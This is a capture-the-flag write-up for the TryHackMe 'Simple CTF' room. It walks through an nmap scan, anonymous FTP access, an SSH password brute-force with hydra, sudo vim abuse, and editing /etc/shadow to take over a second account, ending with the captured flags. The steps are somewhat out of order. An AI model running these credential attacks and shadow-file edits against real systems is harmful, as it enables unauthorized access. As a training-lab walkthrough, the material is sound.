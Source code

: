 > Thu 31 Jul 2025
> al3xx

![[s7.png]]

# Simple CTF [Link](https://tryhackme.com/room/easyctf)

## 1. Reconnaissance
#### TCP Scan

```bash
ip=10.10.126.78
sudo nmap -sC -p- -T4 -oN nmap.txt $ip
```  

Based on the `TCP scan results`, the following ports are `available` for **further assessment**:

| Port   | Software | Version                                 | Status |
| ------ | -------- | --------------------------------------- | ------ |
| 21/tcp | ftp      | vsFTPd 3.0.3 - secure, fast, stable     | open   |
| 80/tcp | http     | http-title: Apache2 Ubuntu Default Page | open   |
| 2222   | ssh      | OpenSSH 7.2p2 Ubuntu 4ubuntu2.8         | open   |
Based on the scan results, we can observe that `port 80` is open and running an **Apache HTTP server** and there is a ftp service running at port 21

## 2. Enumeration

### 1. FTP Enumeration

Port: `21`

The FTP service is **vulnerable to anonymous login**, which allows us to access it without credentials.
![Alt text](Write-ups/TryHackMe/Linux/img/s2.png)

After logging in, we navigated to the `/pub` directory and found a file named: `ForMitch.txt`
![Alt](Write-ups/TryHackMe/Linux/img/s3.png)

File found: `ForMitch.txt` 

File content:

```TEXT
Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
```

🔍 Analysis:
- The message refers to a **user named `mitch`**.
- It implies that:
	- The **system username is `mitch`**.
	- The **password is weak** and can be **brute-forced easily**.
	- The **same password** might be used across different services (e.g., SSH).

### 2. Web Enumeration

After logging via SSH 

```bash
$ ls /var/www/html
index.html  robots.txt  simple
```

Upon further inspection, I discovered a subdirectory accessible via the browser:
```browser
http://10.10.219.207/simple
```
This page is running **CMS Made Simple version 2.2.8**.

**Vulnerability Identified:**
- **CVE:** CVE-2019-9053
- **Description:** CMS Made Simple ≤ 2.2.9 is vulnerable to **SQL Injection** via the `mact` parameter in the `moduleinterface` endpoint.
## 3. Exploitation
### Exploitation – Cracking Password with Hydra

```bash
┌──(kali㉿kali)-[~]
└─$ hydra -l mitch -P /usr/share/wordlists/rockyou.txt ssh://10.10.126.78:2222
[2222][ssh] host: 10.10.126.78   login: mitch   password: secret
```

login: mitch
password: secret
Next step login with *ssh*:

```bash
┌──(kali㉿kali)-[~]
└─$ ssh mitch@10.10.126.78 -p 2222
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)
$
```


## 4. Privilege Escalation
To check what commands the user `mitch` can run as `root`, I ran:

```bash
mitch@Machine:~$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

Full Root Access via `sunbath`
```bash
su sunbath
```

I checked the user's sudo permissions:

sunbath@Machine:~$ sudo -l
[sudo] password for sunbath:
User sunbath may run the following commands on Machine:
    (ALL : ALL) ALL

```bash
sunbath@Machine:~$ sudo cat /root/root.txt
W3ll d0n3. You made it!
sunbath@Machine:~$
```

## 5. Post-Exploitation

After logging in via SSH as `mitch`
```bash
$ ls
user.txt
$ cat user.txt
G00d j0b, keep up!
$
```

After checking the port 80 is open i check if my user is how is own this apache 
```bash
$ ls /var/www/html
index.html  robots.txt	simple
$
```

After gaining root access using `sudo vim`, I was able to **read and write** the `/etc/shadow` file:
```bash
sudo vim /etc/shadow
```

I decided to move laterally and gain access to another user account: **`sunbath`**.
so next move is give sunbath the same value of mitch

![[Write-ups/TryHackMe/Linux/img/s5.png]]

now mitch and sunbath have the same password and i can navigate between the both easily 

```bash
ssh sunbath@10.10.126.78
```
